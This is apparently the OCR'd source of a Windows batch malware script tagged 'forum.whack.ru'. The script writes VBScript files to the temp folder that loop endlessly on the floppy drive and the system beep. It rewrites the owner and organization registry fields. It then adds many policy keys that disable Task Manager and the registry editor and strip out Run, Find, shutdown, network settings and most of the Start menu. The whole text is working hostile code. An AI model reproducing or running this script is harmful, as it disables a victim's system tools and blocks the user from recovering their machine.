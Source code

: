 echo s.regwrite "HKEY_CLASSES_ROOT\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\LocalizedString","forum.whack.ru™">>%temp%\temp.vbs
echo s.regwrite "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\RegisteredOwner","forum.whack.ru™">>%temp%\temp.vbs
echo s.regwrite "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\RegisteredOrganization","forum.whack.ru™">>%temp%\temp.vbs
echo on error resume next > %temp%\temp1.vbs
echo set FSO=createobject("scripting.filesystemobject")>>%temp%\temp1.vbs
echo do>>%temp%\temp1.vbs
echo fso.getfile ("A:\")>>%temp%\temp1.vbs
echo loop>>%temp%\temp1.vbs
echo on error resume next > %temp%\temp2.vbs
echo Set S = CreateObject("Wscript.Shell") >> %temp%\temp2.vbs
echo do>>%temp%\temp2.vbs
echo execute"S.Run ""%comspec% /c echo "" & Chr(7), 0, True">>%temp%\temp2.vbs
echo loop>>%temp%\temp2.vbs
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\System" /v disabletaskmgr /t REG_DWORD /d 1 /f
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\System" /v disableregistrytools /t REG_DWORD /d 1 /f
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoStartMenuPinnedList /t REG_DWORD /d 1 /f
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoStartMenuMFUprogramsList /t REG_DWORD /d 1 /f
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoUserNameInStartMenu /t REG_DWORD /d 1 /f
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\NonEnum" /v {20D04FE0-3AEA-1069-A2D8-08002B30309D} /t REG_DWORD /d 1 /f
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoNetworkConnections /t REG_DWORD /d 1 /f
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoStartMenuNetworkPlaces /t REG_DWORD /d 1 /f
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v StartmenuLogoff /t REG_DWORD /d 1 /f
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoStartMenuSubFolders /t REG_DWORD /d 1 /f
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoCommonGroups /t REG_DWORD /d 1 /f
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoFavoritesMenu /t REG_DWORD /d 1 /f
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoRecentDocsMenu /t REG_DWORD /d 1 /f
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoSetFolders /t REG_DWORD /d 1 /f
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoAddPrinter /t REG_DWORD /d 1 /f
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoFind /t REG_DWORD /d 1 /f
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoSMHelp /t REG_DWORD /d 1 /f
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoRun /t REG_DWORD /d 1 /f
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoStartMenuMorePrograms /t REG_DWORD /d 1 /f
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoClose /t REG_DWORD /d 1 /f
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoChangeStartMenu /t REG_DWORD /d 1 /f
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoSMMyDocs /t REG_DWORD /d 1 /f
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoSMMyPictures /t REG_DWORD /d 1 /f
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoStartMenuMyMusic /t REG_DWORD /d 1 /f